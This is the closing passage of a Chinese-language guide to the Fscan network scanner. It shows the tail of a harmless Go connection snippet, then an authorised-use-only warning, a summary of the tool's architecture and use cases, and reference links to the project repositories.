        time.Duration(Common.Timeout)*time.Second)
    if err != nil {
        return err
    }
    defer conn.Close()
    
    // 发送探测数据并分析响应...
    return nil
}
```

## 安全声明与总结

### 重要提醒

⚠️ **仅用于合法授权的安全测试**，禁止对未授权目标进行扫描。

### Fscan核心优势

1. **技术架构**：策略模式、插件系统、并发引擎、服务识别、POC引擎、结果管理
2. **应用场景**：红队渗透、蓝队防护、运维监控、安全研究、安全培训
3. **学习路径**：基础入门 → 进阶应用 → 源码研读 → 扩展开发 → 实战应用

---

**参考资源**：
- 项目地址：[https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)
- 404StarLink：[https://github.com/knownsec/404StarLink2.0-Galaxy](https://github.com/knownsec/404StarLink2.0-Galaxy)

**关于本指南**：本指南基于Fscan 2.0.1版本，结合深度源码分析和实战经验，旨在帮助安全从业者全面掌握这款优秀的扫描工具。

*本指南仅用于网络安全学习和合法授权的安全测试。*